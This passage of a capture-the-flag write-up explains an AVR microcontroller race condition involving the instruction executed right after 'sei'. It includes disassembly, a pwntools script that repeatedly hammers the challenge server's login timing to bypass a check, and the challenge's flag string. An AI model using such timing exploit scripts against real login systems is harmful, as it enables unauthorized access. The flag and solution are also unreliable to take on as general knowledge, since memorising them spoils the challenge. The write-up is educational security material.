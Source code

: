 But now the problem is, after the `sei` call, it will immediately process the signal before `logged_in` gets set... right? Yet again, however, the answer is no. Another google search shows us this [link](https://www.avrfreaks.net/forum/does-cli-postpone-or-wipe-out-interrupt-requests-have-flags), which says: `When using the SEI instruction to enable interrupts, the instruction following SEI will be executed before any pending interrupts.`

Looking at `code.hex`, we see the code right after the `sei` call:

```
│    │││╎   0x00000394      0e94bf00       call fcn.0000017e
│    │││╎   0x00000398      7894           sei
│    │││╎   0x0000039a      81e0           ldi r24, 0x01
│    │││╎   0x0000039c      80938c06       sts 0x68c, r24
```

Unfortunately, it looks like `logged_in` is only set two instructions after the `sei` call.

Despite this, however, I thought that maybe instead of exactly one instruction being executed, it actually runs _at least_ one. - in other words, _maybe_ it will run two instructions, setting `logged_in` for us and giving us the flag.

Okay, so in theory this attack is possible - but how do we time things properly?

The answer goes back to some of the things we did in our timing attack - we know that the timer is 16 bits, meaning we want to login right around when the timer is at `2^16`. We basically want to try various inputs and make the timer after our credentials to be close to `2^16`. The program doesn't print our timer after a successful login, however, so we can roughly approximate by choosing a password with one character off such as `doNOTl4unch_missi1es?`.

From this, we see that around two incorrect inputs of `agent aaaaaaaaaa` gets us close to 2^16 microseconds. Knowing this, we write a simple script to bash the race condition:

```python
from pwn import *

context.log_level = 'error'
for x in range(50):
    for y in range(20):
        r = remote('avr.2020.ctfcompetition.com', 1337)

        r.send('\n')

        r.send(("agent a" + 'a'*x + "\n")*2 + "agent doNOTl4unch_missi1es!\n")

        r.recvuntil("granted")

        s = r.recvuntil("Menu")
        print (x, y)
        if "off" not in s:
            print s
            r.interactive()

        r.close()
```

This doesn't work 100% of the time and takes a while, but it should pop an interactive connection, in which you can just read the "secret" which will be the flag.

## Flag

`CTF{1nv1sibl3_sei_r4c3_c0ndi7i0n}`
